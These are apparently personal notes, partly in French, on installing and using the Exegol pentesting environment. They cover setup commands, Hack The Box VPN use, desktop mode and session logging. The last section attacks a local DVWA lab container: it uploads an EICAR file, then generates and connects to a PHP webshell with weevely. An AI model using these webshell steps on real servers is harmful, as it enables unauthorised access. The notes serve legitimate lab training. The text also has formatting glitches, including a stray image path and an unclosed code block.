 # exegol
* INSTALLATION 
```
apt install git-all
```
```
git version
```
```
apt install python3
```
```
python3 --version
```
```
apt install python3-pip
```
```
pip --version
```
```
apt install curl
```
```
apt install argcomplete
```

installing docker : 
```
python3 -m  pip install exegol
```
```
apt install bash-completion
```
```
export PATH="$HOME/.local/bin:$PATH"
```
```
sudo exegol -h
```
```
sudo exegol info
```
```
exegol start -h
```
```
exegol start demo light
```
```
nmap localhost
```
```
exit
```
```
sudo exegol info
```
```
exegol stop demo
```

* OPTIONS VPN: 
```
sudo exegol start hackthebox --vpn <chemin_conf_vpn>
```
oublier l'image : il va remettre le tableau et proprosé :  </br>
veuillez rajouter resolv.conf : </br>
Tester ping </br>
 
* DEMO2 : DESKTOP
```
sudo exegol start demo2 light --desktop
```
ouvrir lien dans firefox </br>
id : root </br>
mdp : copier coller </br>
```
exit 
```
* LOG
ascinema (historique) 
```
sudo exegol start demo2 light --l
```
```
ls
```
```
cd logs
```
```
ls asciinema xxx.asciinema
```
```
sudo ls /root/.exegol/workspaces/demo2/logs
* demos 4 : 
```
exegol install nightly
```
```
exegol start master
```
```
burpsuitecommunity
```
```
docker run --rm  -p 80:80 vulnerables/web-dvwa
```
login : admin </br>
password : password </br>
click upload : eicar.exe (detectér antivirus) </br>
```
weevly : webshell
```
```
weevly generate MyPass beacon.php
```
```
weevly http://localhost/hackable/uploads/beacon.php beacon.php
```
```
id
```
```
ls -al
```
```
echo "GET PWN"
```







  



